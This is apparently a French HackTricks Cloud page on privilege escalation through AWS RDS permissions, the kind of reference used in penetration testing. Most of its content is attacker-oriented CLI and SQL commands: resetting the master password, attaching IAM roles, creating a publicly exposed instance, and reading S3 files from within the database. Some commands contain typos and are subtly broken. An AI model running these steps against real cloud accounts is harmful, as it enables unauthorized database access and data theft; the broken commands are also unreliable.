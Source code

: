 # AWS - Privilège d'escalade RDS

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## RDS - Service de base de données relationnelle

Pour plus d'informations sur RDS, consultez :

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Avec cette permission, un attaquant peut **modifier le mot de passe de l'utilisateur principal** et la connexion à l'intérieur de la base de données :
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Vous devrez être en mesure de **contacter la base de données** (elles sont généralement accessibles uniquement depuis les réseaux internes).
{% endhint %}

**Impact potentiel:** Trouver des informations sensibles à l'intérieur des bases de données.

### rds-db:connect

Selon la [**documentation**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), un utilisateur disposant de cette autorisation peut se connecter à l'instance de la base de données.

### Abus des autorisations IAM du rôle RDS

#### Postgresql (Aurora)

{% hint style="success" %}
Si vous exécutez **`SELECT datname FROM pg_database;`** et que vous trouvez une base de données appelée **`rdsadmin`**, vous saurez que vous êtes à l'intérieur d'une **base de données AWS postgresql**.
{% endhint %}

Tout d'abord, vous pouvez vérifier si cette base de données a été utilisée pour accéder à d'autres services AWS. Vous pouvez vérifier cela en examinant les extensions installées :
```sql
SELECT * FROM pg_extension;
```
Si vous trouvez quelque chose comme **`aws_s3`**, vous pouvez supposer que cette base de données a **un certain type d'accès à S3** (il existe d'autres extensions telles que **`aws_ml`** et **`aws_lambda`**).

De plus, si vous avez les autorisations pour exécuter **`aws rds describe-db-clusters`**, vous pouvez voir si le **cluster a un rôle IAM attaché** dans le champ **`AssociatedRoles`**. Si c'est le cas, vous pouvez supposer que la base de données a été **préparée pour accéder à d'autres services AWS**. En fonction du **nom du rôle** (ou si vous pouvez obtenir les **autorisations** du rôle), vous pourriez **deviner** quel accès supplémentaire la base de données a.

Maintenant, pour **lire un fichier dans un bucket**, vous devez connaître le chemin complet. Vous pouvez le lire avec :
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Si vous disposez de **justificatifs AWS bruts**, vous pouvez également les utiliser pour accéder aux données S3 avec :
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **n'a pas besoin de modifier une variable de groupe de paramètres** pour pouvoir accéder à S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Dans un mysql, si vous exécutez la requête **`SELECT User, Host FROM mysql.user;`** et qu'il y a un utilisateur appelé **`rdsadmin`**, vous pouvez supposer que vous êtes dans une **base de données AWS RDS mysql**.
{% endhint %}

Dans le mysql, exécutez **`show variables;`** et si les variables telles que **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** ont des valeurs, vous pouvez supposer que la base de données est prête à accéder aux données S3.

De plus, si vous avez les autorisations pour exécuter **`aws rds describe-db-clusters`**, vous pouvez vérifier si le cluster a un **rôle associé**, ce qui signifie généralement un accès aux services AWS).

Maintenant, pour **lire un fichier dans un bucket**, vous devez connaître le chemin complet. Vous pouvez le lire avec :
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Un attaquant disposant des autorisations `rds:AddRoleToDBCluster` et `iam:PassRole` peut **ajouter un rôle spécifié à une instance RDS existante**. Cela pourrait permettre à l'attaquant d'**accéder à des données sensibles** ou de modifier les données dans l'instance.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Impact potentiel** : Accès à des données sensibles ou modifications non autorisées des données dans l'instance RDS.\
Notez que certaines bases de données nécessitent des configurations supplémentaires, telles que Mysql, qui doit spécifier le rôle ARN dans les groupes de paramètres également.

### `rds:CreateDBInstance`

Avec cette permission seule, un attaquant pourrait créer une **nouvelle instance à l'intérieur d'un cluster** qui existe déjà et qui a un **rôle IAM** attaché. Il ne pourra pas changer le mot de passe de l'utilisateur principal, mais il pourrait exposer la nouvelle instance de base de données à Internet :
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Un attaquant disposant des autorisations `rds:CreateDBInstance` et `iam:PassRole` peut **créer une nouvelle instance RDS avec un rôle spécifié attaché**. L'attaquant peut ensuite potentiellement **accéder à des données sensibles** ou modifier les données dans l'instance.

{% hint style="warning" %}
Certaines exigences du rôle/profil d'instance à attacher (à partir de [**ici**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)) :

* Le profil doit exister dans votre compte.
* Le profil doit avoir un rôle IAM que Amazon EC2 a les autorisations d'assumer.
* Le nom du profil d'instance et le nom du rôle IAM associé doivent commencer par le préfixe `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Impact potentiel**: Accès à des données sensibles ou modifications non autorisées des données dans l'instance RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Un attaquant disposant des autorisations `rds:AddRoleToDBInstance` et `iam:PassRole` peut **ajouter un rôle spécifié à une instance RDS existante**. Cela pourrait permettre à l'attaquant d'**accéder à des données sensibles** ou de modifier les données dans l'instance.

{% hint style="warning" %}
L'instance de la base de données doit être en dehors d'un cluster pour cela.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Impact potentiel**: Accès à des données sensibles ou modifications non autorisées des données dans l'instance RDS.

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
